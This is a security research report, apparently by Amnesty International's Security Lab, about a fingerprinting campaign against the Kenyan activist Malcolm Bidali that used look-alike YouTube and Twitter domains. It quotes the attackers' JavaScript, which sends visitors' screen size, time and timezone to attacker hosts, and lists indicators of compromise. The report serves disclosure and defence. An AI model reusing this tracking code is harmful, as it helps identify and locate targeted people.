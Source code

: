 # Fingerprinting Campaign Targeting Malcolm Bidali

On the 4th of May 2021, Qatar’s state security services forcibly disappeared the Kenyan labour rights activist Malcolm Bidali. Migrant-Rights.org, FairSquare, Amnesty International, Human Rights Watch, and the Business & Human Rights Resource Centre [are calling on Qatari authorities to immediately reveal his whereabouts and explain why he has been detained](https://www.amnesty.org/en/latest/news/2021/05/activist-malcolm-bidali-in-solitary-confinement-in-qatar/). If he has been detained for his activism he should be released immediately and unconditionally.

Malcolm Bidali, 29, is a security guard in Qatar, blogger and activist, who has been vocal about the plight of migrant workers like himself, and has written using a pseudonym Noah for a number of online platforms.

A few days before his disappearance, someone replied to a tweet from Malcolm's Twitter account [@NoahArticulates](https://twitter.com/noaharticulates) with a link to what appeared to be a Human Rights Watch video. This link has been used in an attempt to gather technical information which may have contributed to his identification or geolocation. Amnesty International's Security Lab identified two more domains related to this campaign which may have been used in the same way.

## Initial Tweet

On the 26th of April, the Twitter account @MukhbatQatar replied to @NoahArticulates with a tweet that included a link to a domain mimicking YouTube: `https://youl[.]tube/watch?v=Gt4tqJLiOT0&t=s17`

![](tweet.png)

The link shared with Malcolm Bidal loads a YouTube video by Human Rights Watch about labor rights in Qatar.

![](youltube.png)

Logs from Malcolm’s visit to this decoy page might have allowed the attackers to obtain his IP address, which could have been used to identify and locate him.

## More Domains

While investigating this link, Amnesty International's Security Lab has identified two additional domains related to this campaign.

The same Twitter account @MukhbatQatar has shared a link to the domain `https://twittre[.]co/`with another Twitter user. Using the following JavaScript code (as seen on May 21st), this website collected information about a visitor before redirecting to a legitimate tweet:

```js
$.post('https://twittre[.]co/googleanalytics.js', {
    action: "[REDACTED]",
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    success:function(response){
        window.location.href = "https://twitter.com/[REDACTED]";
    },
    }, function (data) {
    });
```

This code sends the screen size, system time and timezone to another page likely recording visits, probably along with the IP address.

A second domain with a similar infrastructure, `twitt-er[.]app`, uses the exact same code:

```js
$.post('https://twitt-er[.]app/statistics', {
    action: 'm',
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
}, function (data) {
    window.location.href = 'https://twitter.com/[REDACTED]';
});
```

We have not seen this last domain actively distributed, but we noticed URIs redirect to tweets from other Qatari citizens.

All three of these domains were registered between March and May 2021 using the Njalla registration service, and hosted on separate Digital Ocean servers.

## Indicators of compromise

Here are the domains and IP addresses used in this campaign:

```
youl[.]tube
twittre[.]co
twitt-er[.]app
138.197.103.227
128.199.212.166
161.35.100.139
```
